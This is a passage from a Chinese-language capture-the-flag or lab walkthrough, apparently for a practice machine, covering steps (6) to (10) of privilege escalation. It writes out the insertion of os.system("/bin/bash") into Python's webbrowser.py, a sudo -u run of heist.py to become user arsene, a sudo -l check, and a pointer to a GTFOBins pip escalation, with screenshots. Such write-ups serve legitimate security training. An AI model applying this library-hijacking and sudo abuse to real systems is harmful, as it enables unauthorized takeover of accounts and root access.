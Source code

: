 ![image-20240828165404922](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281654004.png)

（6）使用nano改写，写入os.system("/bin/bash")

```py
nano /usr/lib/python3.9/webbrowser.py
```

![image-20240828165425039](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281654165.png)

![image-20240828165439727](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281654854.png)

（7）sudo -u命令可以切换到指定用户下执行命令，成功越权至用户arsene

```py
sudo -u arsene python3.9 /home/arsene/heist.py
```

![image-20240828165504953](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281655020.png) 

（8）查看arsene用户的权限（发现arsene用户无需root密码就能执行pip命令）

```py
sudo -l
```

![image-20240828165536251](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281655325.png)

（9）搜寻pip提权方法：https://gtfobins.github.io/gtfobins/pip/

![image-20240828165557815](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281655869.png)

（10）使用sudo提权，复制代码，在终端执行，提权成功

![image-20240828165606060](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281656184.png)